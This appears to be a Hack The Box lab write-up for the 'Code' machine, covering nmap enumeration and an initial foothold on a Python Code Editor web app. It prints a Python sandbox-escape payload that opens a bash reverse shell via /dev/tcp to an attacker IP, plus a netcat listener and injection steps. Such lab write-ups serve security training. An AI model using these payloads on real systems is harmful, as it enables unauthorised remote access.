 # 🔓 Hack The Box - Code

> Initial enumeration and setup for the Hack The Box machine named **Code**.

pwned

![pwned](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code20.png?raw=true)

---

## 📅 Start Date

`4/19/2025`

---

## 📡 HTB VPN Connection

Before starting, connect to the HTB VPN:

```bash
sudo openvpn ~/Downloads/HTB.ovpn
```

Verify connectivity to the target machine:

```bash
ping -c 3 <HTB_Code_IP>
```
![VPN Connection](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code1.png?raw=true)

🔍 Nmap Scan

Performed a service and version detection scan with aggressive options:

nmap -sC -sV -A -T4 -Pn -oN code.scan 10.10.11.62

![Nmap Result](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code2.png?raw=true)

🧪 Results Summary

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4

Detailed Notes:

    Port 22 (SSH): OpenSSH 8.2p1 — possibly used for shell access after exploitation.

    Port 5000 (HTTP): Gunicorn Python server hosting a Python Code Editor.

http-title: Python Code Editor
http-server-header: gunicorn/20.0.4

📍 OS Details:

    OS detected: Linux 5.x Kernel

    Network distance: 2 hops

🌐 Web Enumeration on Port 5000

Access the Python Code Editor interface at:

http://code.htb:5000

![WebApp](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code3.png?raw=true)

🛠️ Next Steps:

    Interact with the Python Code Editor. Test for:

        Arbitrary code execution

        Upload/execute payloads

        Sandbox escape (if limited)

## 🏴‍☠️ Initial Foothold - Reverse Shell

### 🎯 Objective:
Gain initial access to the target system by exploiting the Python Code Editor and establishing a reverse shell.

---

### 🧰 Prerequisites:

- ✅ **Python** must be installed on the **target** machine.
- ✅ **Netcat (nc)** must be installed on the **attacker's** machine.
- ✅ Ensure the **target machine can reach the attacker’s IP and port**.

---

### 🪝 Step-by-Step Guide: Gaining a Reverse Shell

#### 📌 Step 1: Set Up a Listener on the Attacker’s Machine

On your Kali/Parrot or attacker machine, open a terminal and start Netcat to listen for the incoming connection:

```bash
nc -lvnp 4444
```

![netcat](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code6.png?raw=true)

Flags explanation:

    -l: Listen for incoming connections

    -v: Verbose output

    -n: Don’t perform DNS resolution

    -p 4444: Use port 4444 for the listener

📌 Step 2: Craft the Reverse Shell Payload

Use Python’s dynamic class reference to spawn a bash shell back to your machine:

(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])

    🔁 Replace ATTACKER_IP with your actual IP address (e.g., 10.10.14.89 from HTB VPN).

📌 Step 3: Execute the Payload on the Target Machine

Choose any of the following methods based on your access level:
🔹 Method 1: Direct Python Execution

If you already have a shell or console on the target:

python3 -c '(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"])'

🔹 Method 2: Remote Code Execution (RCE) via Python Code Editor

Inject the payload through the web interface:

    Visit: http://code.htb:5000

    Enter the payload in the code execution area.

    Trigger execution.
